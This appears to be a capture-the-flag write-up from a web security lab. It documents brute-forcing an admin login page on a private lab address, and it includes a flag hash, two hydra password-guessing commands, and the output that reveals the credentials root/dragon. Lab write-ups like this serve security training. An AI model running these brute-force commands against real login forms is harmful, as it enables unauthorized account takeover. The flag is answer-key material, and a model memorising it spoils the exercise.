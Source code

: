 # Bruteforce Admin Credentials

## Flag

d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

## Description

In the "Numeric SQL Injection" episode, we noticed an admin table with "Member_BruteForce" as schema name.

## URL

http://192.168.x.y/admin/

## Steps To Reproduce

Two "basic" payload with common admin usernames :
hydra -t 64 -l admin -P 1000-most-common-passwords.txt 192.168.x.y http-post-form '/admin/:username=^USER^&password=^PASS^&Login=Login:Wrong'
hydra -t 64 -l root -P 1000-most-common-passwords.txt 192.168.x.y http-post-form '/admin/:username=^USER^&password=^PASS^&Login=Login:Wrong'

With the second payload :
[80][http-post-form] host: 192.168.x.y login: root password: dragon
hydra, dragon, haha... ==>[]
So we login with root/dragon as credentials.

## Why is it dangerous ?

Any attacker can impersonate an admin user.

## Possible fixes

- Choose a secure password.

## Resources

- [1000-most-common-passwords.txt]()
- https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/
